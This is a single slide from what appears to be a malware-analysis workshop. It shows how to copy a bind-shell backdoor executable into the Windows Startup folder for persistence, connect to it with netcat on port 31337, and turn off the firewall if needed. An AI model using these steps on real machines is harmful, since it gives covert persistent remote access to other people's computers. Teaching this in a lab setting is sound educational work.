

# Planting Backdoor (Cont’d)
Plant backdoor to Windows startup folder
copy C:\Workshop\SimpleBindBackdoor\nice2.exe "C:\Users\Malware Analysis\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\nice2.exe"
Optionally run the backdoor
C:\Workshop\SimpleBackdoor\nice2.exe
Anybody can do this command to get into the backdoor: nc victim-ip 31337
If does not work, turn off firewall (turned off by default)
8